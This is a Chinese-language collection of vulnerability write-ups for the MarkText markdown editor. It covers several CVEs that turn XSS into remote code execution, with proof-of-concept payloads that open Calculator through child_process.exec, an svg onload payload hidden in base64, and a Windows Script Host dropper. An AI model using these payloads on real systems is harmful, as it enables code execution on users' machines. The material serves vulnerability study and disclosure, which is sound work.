

#### 无CVE编号 XSS2RCE
> https://github.com/marktext/marktext/issues/2601
> https://github.com/marktext/marktext/commit/0dd09cc6842d260528c98151c394c5f63d733b62

影响 <= 0.16.3 的marktext版本，点击链接触发。

POC：
```
<a href="javascript:require('child_process').exec('open -a Calculator')" >evil1</a>

[evil2](javascript:require('child_process').exec('open -a Calculator'))
```
是a标签的`href`调用`javascript`伪协议触发XSS导致RCE。


#### CVE-2021-29996 XSS2RCE
> https://github.com/marktext/marktext/issues/2548

影响 <= 0.16.3 的marktext版本，打开文件触发。

POC：
```
```<style/onload=require('child_process').exec('calc')>

```

漏洞发现者是在Win环境复现的，在MacOS上复现不出来，但Win上可以。注意，这个多出来的换行是必须的，否则无法复现。

漏洞原理是在markdown语法中，在三个反引号后的内容为代码块的语言。而这里作为语言输出的内容可以被当作HTML标签渲染，能完成打开md文件就RCE。


#### CVE-2022-24123 XSS2RCE
> https://github.com/marktext/marktext/issues/2946
> 这个洞是Vidar-Team的学长@e99p1ant挖到的洞，他的博客也有对应的分析
> https://github.red/security-bounty-thought/

影响 <= 0.16.3 的marktext版本，打开文件触发。

POC：


Mermaid图标功能会将输入当作HTML解析导致的。


#### CVE-2022-25069
> https://github.com/marktext/marktext/issues/2990

影响 <= 0.16.3 的marktext版本，粘贴触发。

POC:
```
<table><tr></tr></table>
```

漏洞原因是`table`标签内没有对HTML进行转义，从而导致能插入`img`标签并且渲染


#### CVE-2023-1004 RCE
> https://github.com/marktext/marktext/issues/3575

影响 <= 0.17.1 的marktext版本，只存在于Windows，点击链接触发。

POC：
poc.html

```html
<!-- auto download !-->
<html>
<script>
    var blob = new Blob(['var WshShell = new ActiveXObject("WScript.Shell");var ret = WshShell.run("calc");if (ret == 0)WScript.Echo("You were hacked.");WScript.Quit();'],{type:'application/js'});
    var a = document.createElement('a');
    a.href = window.URL.createObjectURL(blob);
    a.download =  'poc.js';
    a.click();
</script>
</html>

<!-- click to download !-->
<a href="http://127.0.0.1:8000/poc.js" download="poc.js">CLICK~~</a>
```

poc.js

```js
var WshShell = new ActiveXObject("WScript.Shell");
var ret = WshShell.run("calc");
if (ret == 0)
    WScript.Echo("You were hacked.")
WScript.Quit();
```

漏洞是因为Marktext支持加载 `.js`后缀的文件，在Windows上会被识别为WSH（Windows Script Host）。要求就是本地要有恶意的`js`文件，可以考虑通过点击下载的方式也可以直接放在打包好的文件夹中，触发条件比较复杂。


#### CVE-2023-2318 XSS2RCE
> **[CVE-2023-2318](https://github.com/advisories/GHSA-jv63-mj7w-v6v9 "CVE-2023-2318")**

影响 <= 0.17.1 的marktext版本，粘贴触发。

POC: 
```
p = btoa(`require("child_process").exec("open -a Calculator")`);
btoa(encodeURIComponent(`[‪](<a href="http://1:1/#&#x3c;svg&#x3e;&#x3c;svg&#x20;onload=eval(atob('${p}'))&#x3e;">http://1:1/#&#x3c;svg&#x3e;&#x3c;svg&#x20;onload=eval(atob('${p}'))&#x3e;</a>)`))
```

```
[‪](<a href="http://1:1/#&#x3c;svg&#x3e;&#x3c;svg&#x20;onload=eval(atob('cmVxdWlyZSgiY2hpbGRfcHJvY2VzcyIpLmV4ZWMoIm9wZW4gLWEgQ2FsY3VsYXRvciIp'))&#x3e;">http://1:1/#&#x3c;svg&#x3e;&#x3c;svg&#x20;onload=eval(atob('cmVxdWlyZSgiY2hpbGRfcHJvY2VzcyIpLmV4ZWMoIm9wZW4gLWEgQ2FsY3VsYXRvciIp'))&#x3e;</a>)
```

将POC粘贴到编辑器


主要思路是MarkText会在用户粘贴时，检查剪贴板数据，尝试将HTML标签转换成Markdown，然后再生成HTML来进行Markdown的预览。

src/muya/lib/contentState/pasteCtrl.js

```
const links = Array.from(tempWrapper.querySelectorAll('a'))
for (const link of links) {
  const href = link.getAttribute('href')
  const text = link.textContent   // [1]
  if (URL_REG.test(href) && href === text) {
    const title = await getPageTitle(href)
    if (title) {
      link.innerHTML = sanitize(title, PREVIEW_DOMPURIFY_CONFIG, true)
    } else {
      const span = document.createElement('span')   // [2]
      span.innerHTML = text   // [3]
      link.replaceWith(span)
    }
  }
}
```

这段代码会遍历所有a标签，如果href和textContent相同，那么就会执行`getPageTitle`。

```
export const getPageTitle = url => {
  // No need to request the title when it's not url.
  if (!url.startsWith('http')) {
    return ''
  }
  // No need to request the title when off line.
  if (!isOnline()) {
    return ''
  }

  const req = new XMLHttpRequest()
  let settle
  const promise = new Promise((resolve, reject) => {
    settle = resolve
  })
  const handler = () => {
    if (req.readyState === XMLHttpRequest.DONE) {
      if (req.status === 200) {
        const contentType = req.getResponseHeader('Content-Type')
        if (/text\/html/.test(contentType)) {
          const { response } = req
          if (typeof response === 'string') {
            const match = response.match(/<title>(.*)<\/title>/)
            return match && match[1] ? settle(match[1]) : settle('')
          }
          return settle('')
        }
        return settle('')
      } else {
        return settle('')
      }
    }
  }
  const handleError = (e) => {
    settle('')
  }
  req.open('GET', url)
  req.onreadystatechange = handler
  req.onerror = handleError
  req.send()

  // Resolve empty string when `TIMEOUT` passed.
  const timer = new Promise((resolve, reject) => {
    setTimeout(() => {
      resolve('')
    }, TIMEOUT)
  })

  return Promise.race([promise, timer])
}
```

而getPageTitle的作用的请求页面并且获取页面标题，因此POC中构造了一个href和textContent值相同的标签。

当找不到标题时，根据代码`const span = documnet.createElement('span')`，会创建`span`元素，并且将`a`标签的`textContent`分配给`span.innerHTML`，所以就可以控制`textContent`为`http://1:1/#<svg><svg onload=eval(atob('cmVxdWlyZSgiY2hpbGRfcHJvY2VzcyIpLmV4ZWMoIm9wZW4gLWEgQ2FsY3VsYXRvciIp'))>`，使代码进入找不到标题，进而控制`span.innerHTML`，完成XSS。